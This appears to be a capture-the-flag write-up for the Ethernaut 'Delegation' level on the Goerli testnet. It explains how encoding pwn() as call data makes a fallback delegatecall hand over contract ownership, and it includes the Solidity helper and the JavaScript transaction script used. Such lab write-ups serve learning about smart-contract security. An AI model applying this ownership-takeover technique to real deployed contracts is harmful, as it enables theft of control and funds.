Level 6
==========================================================================================================================================

Deployment transaction: https://goerli.etherscan.io/tx/0xbe7bf54e4293bdda507439b5cf9e425f0500a95f8cd7b686c17a1183da83bc04
Submission transaction: https://goerli.etherscan.io/tx/0xf17ed2dd1311641d1e1c91c17591764f6c13617654c19e627622e6221d0bd2e6

-------
This challenge's task is to claim ownership of the instance. 
The fallback function is the entrypoint, as it's the only possible function call that can be done through external calls.
Since fallback functions are called whenever an external party makes a function called which opcode's not defined at a contract, we can essentially call anything and it will 
behave as the fallback.
The logic is making delegateCall a function call that will call the pwn() function with no arguments.
To do that, we have got to pass an bytes-like type msg.data that will the encode the pwn() function. 
As it's a delegateCall, the state change will happen on both the Delegate and the Delegation contracts.

#### The exploit contract:

```
 function delegationHackBytes() public pure returns (bytes memory) {
        bytes memory functionID = abi.encodeWithSignature("pwn()");
        return functionID;
    }
```

#### The scripts: {
    const dataToPass = await delegationExploitContract.delegationHackBytes();
  const claimOwnerShipTx = {
    to: delegationContractAddress,
    data: dataToPass,
    gasLimit: 500000,
    
}

  // Send a transaction
  wallet.sendTransaction(claimOwnerShipTx)
  .then((txObj) => {
    
      console.log(`Transaction ${txObj.hash} pushed.\n ------ `);
      
  })
}

[Ownership Claim tx](https://goerli.etherscan.io/tx/0x511a54d1a8b8b09344a1f9eafad3303101c465243d85fb1979b15c5dfca53eb5)








